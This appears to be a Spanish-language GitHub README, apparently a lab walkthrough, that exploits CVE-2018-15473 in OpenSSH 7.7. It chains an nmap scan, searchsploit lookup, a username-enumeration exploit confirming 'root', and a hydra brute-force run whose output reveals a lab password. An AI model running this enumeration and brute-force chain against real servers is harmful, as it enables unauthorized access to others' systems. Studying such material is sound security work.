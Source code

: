 # Vulnerabilidad CVE-2018-15473  
<p>Esta vulnerabilidad de la version 7.7. de OPenSSH se produce durante la autenticación porque cuando se esta realizando la autenticación
el sistema primero verifica el usuario si existe o no antes de comprobar el formato de lo que esta escrito, si el usuario no existe saltará el error " SSH2_MSG_USERAUTH_FAILURE " y posteriormente verificará si el formato es correcto, debido a esto se puede comprobar si el usuario
existe o no.</p>

## Requisitos
- nmap
- ssh
- hydra
- searchsploit
- python

## Exploit
<p>Realizar un escaneo de puertos con nmap</p>

```
nmap -sCV -sS -n -Pn -p- [IP]

```

<p>Esto nos ayudará a escanear los puertos de las IP que esten en nuestra red obteniendo el siguiente resultado<br></p>

```
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

<p>Vemos que tenemos abierto el puerto 22/tcp con un servicio ssh y una version de OpenSSH 7.7,
lo siguiente que debemos hacer es ver que tipo de vulnerabilidades tiene esta version con el siguiente comando</p>

```
searchsploit OpenSSH

```
<p>Esta herramienta nos ayudara a ver que vulnerabilidades tiene esta version, dando como resultado algo similar a esto</p>

```
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Debian OpenSSH - (Authenticated) Remote SELinux Privilege Es | linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of S | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execution             | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x - File Read       | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Overflow           | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite                   | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)               | linux/remote/45210.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code Off-by-One            | unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS Token Buffer Overflow   | linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (1)         | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (2)         | unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remote Denial of Service   | multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privilege Escalation         | linux/local/41173.c
OpenSSH 7.2 - Denial of Service                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                         | linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                 | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                       | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded  | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                         | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files                   | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - 'gossh.sh' Remote Users Ident          | linux/remote/26.sh
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery Tool            | linux/remote/25.c
OpenSSHd 7.2p2 - Username Enumeration                        | linux/remote/40113.txt
Portable OpenSSH 3.6.1p-PAM/4.1-SuSE - Timing Attack         | multiple/remote/3303.sh
------------------------------------------------------------- ---------------------------------

```

<p> Una vez que hayamos encontrado el exploit de nuestra version procedemos a descargarlo en nuestro directorio</p>

```
searchsploit -m linux/remote/45939

```

<p>Usamos el exploit que se encuentra en nuestro directorio y probaremos con algun nombre de usuario comun como "root"</p>

```
python2 45939 IP root

```

<p>Dandonos un resultado similar a esto, en donde verifica que root es un usuario</p>

```
└─$ python2 45939.py 172.17.0.2 root
/home/kali/.local/lib/python2.7/site-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
[+] root is a valid username

```

<p> Ahora usamos a hydra para hacer un ataque de fuerza bruta al usuario root</p>

```
hydra -l root -P UBICACION_DE_DICCIONARIO ssh:// IP

```

<p>Finalmente obtenemos la contraseña del usuario root</p>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-01 20:05:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-01 20:05:42

```


